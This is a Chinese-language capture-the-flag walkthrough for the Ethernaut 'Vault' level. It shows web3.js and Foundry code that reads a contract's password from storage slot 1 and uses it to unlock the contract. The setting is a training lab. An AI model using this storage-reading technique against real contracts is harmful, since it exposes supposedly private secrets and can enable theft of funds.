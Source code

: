 `eth_getStorageAt` JSON RPC 函数可用于读取合约在给定槽位的存储。

使用 web3.js 读取 slot 1 的合约存储：

```javascript
web3.eth.getStorageAt(contractAddress, 1, (err, result) => {
  console.log(result);
});
```

在 Foundry 中，可以使用 cheatcodes 中的 load：

```solidity
bytes32 password = vm.load(address(instance), bytes32(uint256(1)));
```

## 💻 Foundry 实现

### 攻击合约代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/Ethernaut.sol";
import "../src/levels/VaultFactory.sol";

contract VaultTest is Test {
    Ethernaut ethernaut;
    VaultFactory vaultFactory;
    
    function setUp() public {
        ethernaut = new Ethernaut();
        vaultFactory = new VaultFactory();
        ethernaut.registerLevel(vaultFactory);
    }
    
    function testVaultExploit() public {
        // 创建关卡实例
        address levelInstance = ethernaut.createLevelInstance(vaultFactory);
        Vault instance = Vault(levelInstance);
        
        // 验证初始状态
        assertEq(instance.locked(), true);
        
        // 攻击：读取存储在 slot 1 中的密码
        bytes32 password = vm.load(address(instance), bytes32(uint256(1)));
        
        // 使用读取的密码解锁
        instance.unlock(password);
        
        // 验证攻击成功
        assertEq(instance.locked(), false);
        
        // 提交关卡
        bool levelSuccessfullyPassed = ethernaut.submitLevelInstance(
            payable(levelInstance)
        );
        assert(levelSuccessfullyPassed);
    }
}
```
